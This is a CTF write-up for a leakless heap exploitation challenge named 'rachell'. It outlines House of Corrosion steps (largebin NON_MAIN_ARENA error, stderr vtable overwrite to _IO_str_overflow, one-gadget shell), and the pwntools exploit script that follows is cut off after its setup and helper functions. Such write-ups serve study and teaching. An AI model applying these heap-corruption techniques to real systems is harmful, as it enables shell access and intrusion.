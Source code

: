 # Rough overview of exploit  
This program is/was intended to be "completely leakless". Therefore, you have
to get a shell without any libc information. Here is the very situation where
House of Corrosion is useful.  
If you are new to this technique, please refer to following pages.  

[Suggestion of House of Corrosion by CptGibbon
(En)](https://github.com/CptGibbon/House-of-Corrosion)  
[My PoC of House of Corrosion
(Jp)](https://smallkirby.hatenablog.com/entry/2020/02/24/210633)  
  
In short, the exploit follows below steps.  
- use largebin with NON\_MAIN\_ARENA flag on to cause an error    
- overwrite vtable of stderr and make it call \_IO\_str\_overflow when an error    
- in this function, a crafted function pointer is used and an one-gadget is invoked    
  
In this problem, two buffers would be allocated when you want to write content
into a file. One is for a node management structure, and another is for
content buffer. You can use "touch" command to allocate only the former buffer
beforehand. It would make exploit easier because you don't care the allocation
of the latter buffer when allocating crafted chunks.

# Exploit  
The adrress of libc symbols are randomized except for their last 3 nibbles.
When you overwrite global\_max\_fast by unsortedbin attack, you would
overwrite the last 2 bytes of valid fd of an unsorted chunk. Therefore, this
attack has 4-bit entropy. (Actually, this PoC has 4+x bit entropy, where x is
small.)  
  
```python  
#!/usr/bin/env python  
#encoding: utf-8;

from pwn import *  
import sys  
import time

FILENAME = "../dist/rachell"  
LIBCNAME = "../dist/libc.so.6"

hosts = ("uouo","localhost","localhost")  
ports = (25252,12300,25252)  
rhp1 = {'host':hosts[0],'port':ports[0]}    #for actual server  
rhp2 = {'host':hosts[1],'port':ports[1]}    #for localhost  
rhp3 = {'host':hosts[2],'port':ports[2]}    #for localhost running on docker  
context(os='linux',arch='amd64')  
binf = ELF(FILENAME)  
libc = ELF(LIBCNAME) if LIBCNAME!="" else None

## utilities #########################################

def hoge(command):  
 c.recvuntil("command> ")  
 c.sendline(command)

def ls(dir="."):  
 hoge("ls")  
 c.recvuntil("path> ")  
 c.sendline(dir)

# current dir only  
def touch(name):  
 hoge("touch")  
```